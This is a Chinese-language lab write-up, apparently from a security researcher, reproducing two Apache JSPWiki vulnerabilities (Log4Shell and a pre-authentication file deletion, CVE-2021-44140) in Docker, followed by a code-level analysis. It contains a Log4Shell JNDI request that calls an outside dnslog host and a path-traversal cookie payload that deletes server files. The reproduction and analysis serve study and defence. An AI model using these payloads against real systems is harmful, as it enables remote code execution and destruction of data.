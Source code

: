 ## 相关漏洞
### CVE-2021-44228 Log4shell 

#### 漏洞描述

影响范围(已确认)：v2.11.0

![image-20220110151507777](jspwiki.assets/image-20220110151507777.png)



#### 漏洞复现

##### 环境搭建

查看仓库存在哪些版本的镜像

```shell
curl https://registry.hub.docker.com/v1/repositories/jspwiki/tags| tr -d '[\[\]" ]' | tr '}' '\n'| awk -F: -v image='jspwiki' '{if(NR!=NF && $3 != ""){printf("%s:%s\n",image,$3)}}'
```

![image-20220110150226665](jspwiki.assets/image-20220110150226665.png)

有存在log4shell版本(v2.11.0)的镜像，拉取

```shell
sudo docker pull apache/jspwiki:release-2.11.0

# 或者
docker pull vultarget/jspwiki_log4j_rce:2.11.0
```

查看本地已经pull的镜像

```
sudo docker images
```

![image-20220110171735060](jspwiki.assets/image-20220110171735060.png)

启动

```shell
# 提前将调试端口映射出来
sudo docker run -d -p 8080:8080 -p 5005:5005  --name jspwiki_log4shell_debug  vultarget/jspwiki_log4j_rce:2.11.0
```

应用首页

![image-20220110172151844](jspwiki.assets/image-20220110172151844.png)



##### 漏洞验证

**proof of concept**

```
curl -vv http://10.10.10.139:8080/wiki/$%7Bjndi:ldap:$%7B::-/%7D/9p1lvv.dnslog.cn%7D/
```

![image-20220110172050167](jspwiki.assets/image-20220110172050167.png)



### CVE-2021-44140 Pre-auth 文件删除

#### 漏洞描述

https://jspwiki-wiki.apache.org/Wiki.jsp?page=CVE-2021-44140

影响范围：Apache JSPWiki up to 2.11.0.M8

#### 漏洞复现

##### 环境搭建

###### 基于docker

搜索镜像

```
sudo docker search jspwiki
```

![image-20220110142929486](jspwiki.assets/image-20220110142929486.png)

```
sudo docker pull vulfocus/jspwiki-cve_2021_44140
docker run -d -p 8080:8080 --name jspwiki vulfocus/jspwiki-cve_2021_44140
```

![image-20220110143652926](jspwiki.assets/image-20220110143652926.png)

如图，成功搭建

![image-20220110143822970](jspwiki.assets/image-20220110143822970.png)

```
# 二次启动时，使用container id 即可
sudo dokcer ps -a
sudo docker start a50359cfb0d1

# 进入container 内部
sudo docker exec -it a50359cfb0d1 /bin/sh
```

![image-20220110153629595](jspwiki.assets/image-20220110153629595.png)

配置远程调试,在/bin/catalina.sh中添加如下代码：

```
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5005,suspend=n,server=y"
```

- address=5005: 5005为远程debug时监听的端口

![image-20220110154139526](jspwiki.assets/image-20220110154139526.png)

退出，将调试端口也映射出来

- 为运行的container增加端口 
  - https://stackoverflow.com/questions/19335444/how-do-i-assign-a-port-mapping-to-an-existing-docker-container

```
docker commit jspwiki jspwiki_debug
sudo docker run -p 8080:8080 -p 5005:5005 -td jspwiki_debug
```

本地idea测试

![image-20220110155734110](jspwiki.assets/image-20220110155734110.png)

`Connected` 表示成功

![image-20220110155805314](jspwiki.assets/image-20220110155805314.png)





##### 漏洞验证

**proof of concept**

现在/tmp/目录下创建flag.txt

![image-20220110161543541](jspwiki.assets/image-20220110161543541.png)



```http
Get /Logout.jsp
...
...
Cookie: JSESSIONID=xxx; JSPWikiAssertedName=xxx; JSPWikiUserPrefs=xxx;JSPWikiUID=../../../../../../../../../../../../../../../tmp/flag.txt
```

![image-20220110161704602](jspwiki.assets/image-20220110161704602.png)

成功删除flag.txt

![image-20220110161955992](jspwiki.assets/image-20220110161955992.png)

#### 漏洞分析

根据漏洞名称。可以猜出漏洞点在注销处。

测试版本：2.11.0.M7

跟进

- logout.jsp

  调用CookieAuthenticationLoginModule.clearLoginCookie() 删除cookie

  ![image-20220110131939248](jspwiki.assets/image-20220110131939248.png)

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#clearLoginCookie

  ![image-20220110132101561](jspwiki.assets/image-20220110132101561.png)

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#getLoginCookie(javax.servlet.http.HttpServletRequest)

  存在可控参数JSPWikiUID

  ![image-20220110133028087](jspwiki.assets/image-20220110133028087.png)

  若满足条件,则调用getCookieFile()，返回值赋值给uid

  ```
  String uid = getLoginCookie(request);
  ```

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#getCookieFile

  ![image-20220110132647092](jspwiki.assets/image-20220110132647092.png)

  创建cookieDir

  ```
  # 拼接后作为路径
  File cookieDir = new File(engine.getWorkDir(), "logincookies");
  ```

  若该路径不存在，则创建，执行流程走到第2个else分支

  ```
  File file = new File(cookieDir, uid);
  ```

  根据cookdir 和 uid 创建文件，返回值赋值给cf 。

  若满足条件

  ```
  cf != null && !cf.delete()
  ```

  则将文件cf进行删除处理

![image-20220110132939245](jspwiki.assets/image-20220110132939245.png)

